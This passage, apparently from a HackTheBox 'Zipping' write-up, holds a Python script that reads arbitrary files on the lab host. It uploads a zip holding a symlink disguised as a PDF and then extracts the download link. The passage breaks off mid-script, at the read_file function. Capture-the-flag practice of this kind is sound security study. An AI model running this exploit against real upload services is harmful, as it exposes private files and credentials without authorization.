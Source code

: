 #### Python automation script

> `read_file.py`

```python
"""
Hackthebox - Zipping
Arbitary file read via uploading a zip file containing a symlink
"""
import sys, os
import requests
import re
import subprocess
import uuid


UPLOAD_URL = "http://zipping.htb/upload.php"
TEMP_DIR = "/tmp/zip_exp"


def run_cmd(command: str) -> tuple[str, str]:
    """Run subprocess command"""
    process = subprocess.Popen(
        command,
        stdout=subprocess.PIPE,
        stderr=subprocess.PIPE,
        shell=True,
    )
    output, error = process.communicate()
    return output.decode("utf-8"), error.decode("utf-8")


def create_zip(fp: str) -> str:
    random_name = str(uuid.uuid4())
    pdf_name = f"{random_name}.pdf"
    zip_name = f"{random_name}.zip"
    run_cmd(f"ln -s {fp} {pdf_name}")
    run_cmd(f"zip --symlinks {zip_name} {pdf_name}")
    return f"{TEMP_DIR}/{zip_name}"


def exp(target_fp: str) -> str:
    zip_fp = create_zip(target_fp)
    file_name = "resume.zip"
    files = {
        "zipFile": (
            file_name,
            open(zip_fp, "rb"),
            "application/zip"
        )
    }
    data = {"submit": ""}
    with open(zip_fp, "rb") as f:
        r = requests.post(UPLOAD_URL, files=files, data=data)
    # print(r.text)
    try:
        download_path = re.findall(r'following path:</p><a href="(.*?)"', r.text)[0]
    except IndexError:
        print("[- ]Download Link not found")
        sys.exit(1)
    return f"http://zipping.htb/{download_path}"


def read_file(fp: str) -> str:
```